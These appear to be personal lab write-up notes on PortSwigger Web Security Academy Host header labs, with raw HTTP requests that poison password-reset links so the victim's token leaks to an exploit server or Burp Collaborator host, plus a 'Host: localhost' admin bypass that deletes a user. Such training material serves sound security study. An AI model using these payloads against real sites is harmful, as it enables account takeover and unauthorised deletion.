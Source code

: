 ## Lab - 1: Basic password reset poisoning

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

### how forgot password works in this lab ?

- first test with own account `wiener`
- enter name at forgot password page will make a post request

```
POST /forgot-password HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Then `Please check your email for a reset password link.`
- In email box, the following link with token is received.

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=WLiNjn9NG1CUePEojyt8OtuiaCr3clzi
```

If follow the link, reset password page is received. Then POST request to change the password.

```
POST /forgot-password?temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...

csrf=9FlVx2UgbGDnst1PfLnKjyNdNp2h9wPi&temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS&new-password-1=peter&new-password-2=peter
```

### How to exploit other user

- test the Host header for POST request with other Hosts

```
POST /forgot-password HTTP/1.1
Host: www.test.com
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Email still received with the following link

```
https://www.test.com/forgot-password?temp-forgot-password-token=hZ2261K8u025FraGlCRDl2Gs7RRFMjd0
```

- change the Host header to exploit server and change the user name to other user

```
POST /forgot-password HTTP/1.1
Host: exploit-0a47002904c32fb3c00831f6017b006e.web-security-academy.net/
...
csrf=SOcfxkHQ6D47ls6UbKS5xRvORlFvvlfm&username=carlos
```

- Then look at the exploit server log and found a GET request with token.
- use that token to get the change password page for other user

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=<token-from-log>
```

---

## Lab - 2: Password reset poisoning via middleware

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

```
POST /forgot-password HTTP/1.1
X-Forwarded-Host: l5r2vxr3alvuvijrao2ocl83puvkj9.burpcollaborator.net
Host: 0a64005403af9d9ac08f879e001900f4.web-security-academy.net
...
username=carlos
```

---

## Lab - 3: Password reset poisoning via dangling markup

> plan after XSS

---

## Lab - 4: Web cache poisoning via ambiguous requests

> plan after web cache poisoning

---

## Lab 5 : Host header authentication bypass (A)

- This lab makes an assumption about the privilege level of the user based on the HTTP Host header. To solve the lab, access the admin panel and delete Carlos's account.

- admin route can be found at `/admin`

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

---
